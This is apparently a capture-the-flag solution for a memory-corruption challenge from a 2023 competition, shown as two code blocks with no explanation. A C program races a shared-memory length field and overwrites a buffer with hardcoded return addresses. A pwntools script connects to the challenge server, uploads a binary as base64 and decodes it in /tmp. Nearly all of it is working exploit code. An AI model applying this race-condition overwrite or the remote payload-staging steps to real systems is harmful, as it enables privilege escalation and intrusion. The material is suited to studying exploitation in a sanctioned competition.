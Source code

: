 ```c
    shm_req_t* shm_req = mmap(NULL, sizeof(shm_req_t), PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
    printf("%p\n", shm_req);
    if(shm_req == MAP_FAILED) {
        fprintf(stderr, "mmap error");
        exit(1);
    }

    while(shm_req->len != 0xff) {}

    printf("%d %d\n", shm_req->len, shm_req->shift);

    shm_req->len = 0x2;
    shm_req->shift = 0x00;

    usleep(1000);
    memcpy(shm_req->buf, "22223333", 8);
    memcpy(shm_req->buf + 0x88, "\xa6\x12\x40\x00\x00\x00\x00\x00", 0x8);
    memcpy(shm_req->buf + 0xa0, "\x4c\x12\x40\x00\x00\x00\x00\x00", 0x8);
    memcpy(shm_req->buf + 0xa8, "\x4c\x12\x40\x00\x00\x00\x00\x00", 0x8);
    memcpy(shm_req->buf + 0xb0, "\x4c\x12\x40\x00\x00\x00\x00\x00", 0x8);

    for (int i=0; i<100000; i++) {
      shm_req->len = 0x2;
      shm_req->len = 0xff;
    }
    close(fd);
}
```
```python
from pwn import *
import base64
from time import sleep
import sys

def rcv(r, d, f=True):
    data = b''
    while d not in data:
        data += r.recv(1024)
    data = data.split(b'\r')
    data = b''.join(data)
    if f:
      return data.decode()
    else:
      return data

r = remote('pwn-shifty-mem-e2993357bc2bc0d7.2023.ductf.dev', 443, ssl=True)
rr = remote('pwn-shifty-mem-e2993357bc2bc0d7.2023.ductf.dev', 443, ssl=True)

send_f = False
if sys.argv[2] == 't':
    send_f = True

if send_f == True:
  data = open('./aa', 'rb').read()
  data = base64.b64encode(data)

  payload = b''
  payload += b'echo "' + data + b'" > /tmp/aa.bin'
  print(rcv(r, b'$ '))
  r.sendline(payload)

  print(rcv(r, b'$ '))
  r.sendline(b'base64 -d /tmp/aa.bin > /tmp/aa')
```